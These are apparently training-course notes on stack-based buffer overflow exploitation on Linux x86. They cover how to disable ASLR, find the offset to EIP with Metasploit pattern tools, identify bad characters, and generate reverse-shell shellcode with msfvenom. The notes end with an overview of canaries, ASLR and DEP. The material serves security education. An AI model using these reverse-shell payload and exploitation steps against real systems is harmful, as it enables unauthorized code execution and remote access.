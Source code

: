 ## Buffer Overflows Overview : 

Buffer overflows have become less common in todays world as modern compilers have built in memory-protections that make it difficult for memory corruption bugs to occur accidentally. That being said languages like C are not going to go away anytime soon and they are predominate in embedded software and IOT (Internet of Things).

## Exploit Development Introduction : 

An `0-day exploit` is a code that exploits a newly identified vulnerability in a specific application.

When they are published, they talk about `N-day exploits`, counting the days between the publication of the exploit and an attack on the unpatched systems.

Also, these exploits can be divided into four different categories:
- `Local`.
- `Remote`.
- `DoS`.
- `WebApp`.

## CPU Architecture : 

The architecture of the `Von-Neumann` was developed by the Hungarian mathematician John von Neumann, and it consists of four functional units :
- `Memory`
- `Control Unit`
- `Arithmetical Logical Unit`
- `Input/Output Unit`

![[von_neumann3.webp]]

There are four different types of `ISA`:
- `CISC` - `Complex Instruction Set Computing`
- `RISC` - `Reduced Instruction Set Computing`
- `VLIW` - `Very Long Instruction Word`
- `EPIC` - `Explicitly Parallel Instruction Computing`

![[Instruction.png]]

## Stack-Based Buffer Overflow : 

![[buffer_overflow_1.webp]]
#### .text
The `.text` section contains the actual assembler instructions of the program. This area can be read-only to prevent the process from accidentally modifying its instructions. Any attempt to write to this area will inevitably result in a segmentation fault.
#### .data
The `.data` section contains global and static variables that are explicitly initialized by the program.
#### .bss
Several compilers and linkers use the `.bss` section as part of the data segment, which contains statically allocated variables represented exclusively by 0 bits.

Vulnerable C Functions : 
- `strcpy`
- `gets`
- `sprintf`
- `scanf`
- `strcat`

```shell
(gdb) set disassembly-flavor intel
(gdb) disassemble main
```

Modern operating systems have built-in protections against such vulnerabilities, like Address Space Layout Randomization (ASLR). For the purpose of learning the basics of buffer overflow exploitation, we are going to disable this memory protection features :

```shell-session
student@nix-bow:~$ sudo su
root@nix-bow:/home/student# echo 0 > /proc/sys/kernel/randomize_va_space
```

## CPU Registers : 

![[Registers.png]]

## Take Control of EIP : 

One of the most important aspects of a stack-based buffer overflow is to get the `instruction pointer` (`EIP`) under control, so we can tell it to which address it should jump. This will make the `EIP` point to the address where our `shellcode` starts and causes the CPU to execute it.

![[buffer_overflow_2.webp]]

```
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 


/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt

/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -q 0x69423569

info registers
```

![[buffer_overflow_3.webp]]![[buffer_overflow_4.webp]]

## Determine the Length for Shellcode :

Now we should find out how much space we have for our shellcode to perform the action we want. It is trendy and useful for us to exploit such a vulnerability to get a reverse shell. First, we have to find out approximately how big our shellcode will be that we will insert, and for this, we will use `msfvenom`.

```shell
NolanCarougeHTB@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c


No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
```

Let us briefly summarize what we need for this:
1. We need a total of 1040 bytes to get to the `EIP`.
2. Here, we can use an additional `100 bytes` of `NOPs`
3. `150 bytes` for our `shellcode`.

![[buffer_overflow_8.webp]]![[buffer_overflow_7.webp]]

# Identification of Bad Characters :

Previously in UNIX-like operating systems, binaries started with two bytes containing a "`magic number`" that determines the file type. In the beginning, this was used to identify object files for different platforms. Gradually this concept was transferred to other files, and now almost every file contains a magic number.

Such reserved characters also exist in applications, but they do not always occur and are not still the same. These reserved characters, also known as `bad characters` can vary, but often we will see characters like this :

- `\x00` - Null Byte
- `\x0A` - Line Feed
- `\x0D` - Carriage Return
- `\xFF` - Form Feed

## Generating Shellcode : 

We already got to know the tool `msfvenom` with which we generated our shellcode's approximate length. Now we can use this tool again to generate the actual shellcode, which makes the CPU of our target system execute the command we want to have.

```shell
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

info proc all
```

## Identification of the Return Address : 

After checking that we still control the EIP with our shellcode, we now need a memory address where our NOPs are located to tell the EIP to jump to it. This memory address must not contain any of the bad characters we found previously.

![[buffer_overflow_9.webp]]

## Prevention Techniques and Mechanisms : 

### Canaries

The `canaries` are known values written to the stack between buffer and control data to detect buffer overflows. The principle is that in case of a buffer overflow, the canary would be overwritten first and that the operating system checks during runtime that the canary is present and unaltered.

### Address Space Layout Randomization (ASLR)

Address Space Layout Randomization (`ASLR`) is a security mechanism against buffer overflows. It makes some types of attacks more difficult by making it difficult to find target addresses in memory. The operating system uses ASLR to hide the relevant memory addresses from us. So the addresses need to be guessed, where a wrong address most likely causes a crash of the program, and accordingly, only one attempt exists.

### Data Execution Prevention (DEP)

`DEP` is a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.